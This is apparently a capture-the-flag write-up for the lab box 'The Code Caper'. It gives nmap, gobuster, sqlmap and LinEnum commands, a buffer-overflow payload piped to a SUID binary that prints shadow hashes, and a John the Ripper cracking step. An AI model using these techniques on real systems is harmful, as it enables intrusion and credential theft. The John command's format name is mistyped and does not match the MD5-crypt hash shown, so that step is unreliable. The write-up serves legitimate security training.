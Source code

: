 # The Code Caper - Write-Up by unguest
This write-up may be intended only for those who already finished this box. However, you can have a quick look at it if you're totally lost.

## I - Host enumeration
For this part, I'm using this command : 
```bash
nmap -p 1-1000 -sV -sS <ip>
```

-p 1-1000 => Scan only the 1000 first ports

-sV => Get the services' version (as we're blind for now, I expected to find a vulnerable service with a CVE)

-sS => Perform a SYN-STEALTH scan

Here is the output of the scan : 

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-08 18:40 CEST
Nmap scan report for 10.10.212.142
Host is up (0.029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.34 seconds

```

From this output, we can have all the informmation needed to answer the three following questions :

### Question 1
We have 2 ports opened on this machine : 22 & 80

### Question 2
The webpage's (http://<ip>/index.html) title is "Apache2 Ubuntu Default Page: It works"

### Question 3
The SSH version is OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

## II - Web Enumeration
For this part, I used gobuster as suggested as long as dirb doesn't handle files but only directories.

```
gobuster dir -x php,txt,html --wordlist /usr/share/wordlists/dirb/big.txt --url <ip>
```

Please note that the path I'm using here only works for the Kali distro. You may need to download it manually if your distro doesn't come with it natively.

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.212.142
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html                                                                                                                                                                                                           
[+] Timeout:        10s                                                                                                                                                                                                                    
===============================================================                                                                                                                                                                            
2020/04/08 18:48:50 Starting gobuster                                                                                                                                                                                                      
===============================================================                                                                                                                                                                            
/.htaccess (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/administrator.php (Status: 200)
```

I stopped the script as soon as I saw the administrator.php file : I knew it was the 'important file' of the server.

## III - Web Exploitation
As I knew their won't be many records in the database, I didn't use the -all sub-flag.

My exploiting command was tho : 

```bash
sqlmap -u <ip>/administrator.php --forms --dump
```

Then we have the 2 credentials that appears... magically :p.

## IV - Command Execution
Firstly, I want to say a big thanks to Psyrkoz#0405 & MuirlandOracle#2721 who debugged me. In fact, This part was the most costful in time on the whole box.

At a glance, I think everyone would use this command : 

```bash
find /* -user pingu
```

But We have many other users and here www-data is our candidate ! 

```bash
find /* -user www-data
```
is returning us 
```bash
 /var/hidden/pass 
 ```
 on its last line, which clearly shows us the way to go !

## V - LinEnum
To 'inject' LinEdum into the system, I ran into a rough and raw solution (that I don't recommend even if I used it) : Copy/Paste the content of [linenum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) through a SSH session (now we have the SSH password of Pingu, let's exploit it !).

Then I ran this command : 

```bash
chmod +x ./linenum.sh
./linenum.sh | grep SUID -A30
```
And as a part of the output, we find this : 

```bash
[-] SUID files:
-r-sr-xr-x 1 root papa 7516 Jan 16 21:07 /opt/secret/root
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
```

As we can see, the first line looks pretty... unusual and it is : It's the answer of this part !

## VI - Binary-Exploitation
I choosed to pass through the manual version of this part so I'll not cover the python part. In fact, the explanation is alreadyb a write-up to it.

After playing a bit with gdb, it looks like the size of our payload has to be 44 chars. Even if it's said, I really encourage you to (re)discover it by yourself.

Then, to access our shell function, I've just pasted the python command they give us :

```
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```

Which give us an output like this : 

```
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18277:0:99999:7:::
uuidd:*:18277:0:99999:7:::
papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
```

## VII - Password Cracking
I used John The Ripper (as I get used to it) and the command looks something like this : 

```
john --format=sha521crypt -w /usr/share/wordlists/rockyou.txt papa.hash
```
And there you are : Root password is owned !

## VIII - Conclusion

I found this box pretty easy even if I stuck on the command execution part.
By the way, I you found any error or have any improvment to share with this write-up, I'm waiting for your PRs :p
